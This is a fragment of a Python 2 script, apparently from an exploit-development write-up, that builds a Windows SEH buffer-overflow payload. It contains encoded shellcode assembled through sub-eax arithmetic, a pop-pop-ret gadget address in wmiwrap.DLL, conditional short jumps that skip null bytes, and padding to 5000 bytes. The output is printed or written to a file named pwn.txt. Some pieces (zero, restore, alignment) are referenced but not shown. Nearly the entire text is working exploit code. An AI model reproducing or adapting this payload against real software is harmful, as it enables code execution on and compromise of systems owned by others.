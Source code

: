 ```console
shellcode += "\x2d\x14\x2d\x55\x01" 	# sub eax, 0x01562D14
shellcode += "\x2d\x16\x2e\x56\x01" 	# sub eax, 0x01562E16
shellcode += "\x50" 		    	# push eax; (get the value on the stack). We will do this for all remaining steps like this one.

# 2nd line = 24121729 24121739 2414194A
shellcode += zero
shellcode += "\x2d\x29\x17\x12\x24" 	# sub eax, 0x24121729
shellcode += "\x2d\x39\x17\x12\x24"     # sub eax, 0x24121739
shellcode += "\x2d\x4a\x19\x14\x24"     # sub eax, 0x2414194A (was 40 at the end, but a miscalc happened. Changed to 4A)
shellcode += "\x50" 			# push eax

# 3rd line = 34313635 34313434 34313434
shellcode += zero
shellcode += "\x2d\x35\x36\x31\x34" 	# sub eax, 0x34313635
shellcode += "\x2d\x34\x34\x31\x34" 	# sub eax, 0x34313434
shellcode += "\x2d\x34\x34\x31\x34" 	# sub eax, 0x34313434
shellcode += "\x50" 			# push eax

# 4th line = 323A1245 323A1245 333A1245
shellcode += zero
shellcode += "\x2d\x45\x12\x3a\x32" 	# sub eax, 0x323A1245
shellcode += "\x2d\x45\x12\x3a\x32" 	# sub eax, 0x323A1245
shellcode += "\x2d\x45\x12\x3a\x33" 	# sub eax, 0x333A1245
shellcode += "\x50" 		    	# push eax

# All together now.
payload = "\x41" * 4260
payload += "\x70\x7e\x71\x7e"		# JO 126 bytes. If jump fails, default to JNO 126 bytes
payload += "\x42\x4c\x01\x10"		# 0x10014c42 pop pop ret wmiwrap.DLL

# There are 2 NULL (\x00) terminators in our buffer of A's, near our nSEH jump. We are going to jump far away from them
# so we have enough room for our shellcode and to decode.
payload += "\x41" * 122			# add padding since we jumped 7e hex bytes (126 bytes) above
payload += "\x70\x7e\x71\x7e"		# JO or JNO another 126 bytes, so shellcode can decode
payload += "\x41" * 124
payload += "\x70\x7e\x71\x7e"		# JO or JNO another 126 bytes, so shellcode can decode
payload += "\x41" * 124
payload += "\x70\x79\x71\x79"		# JO or JNO only 121 bytes
payload += "\x41" * 121			# NOP is in the restricted characters. Using \x41 as a slide into alignment
payload += restore
payload += alignment
payload += shellcode
payload += "\x43" * (5000-len(payload))


print payload

#f = open('pwn.txt', 'w')
#f.write(payload)
#f.close()
```
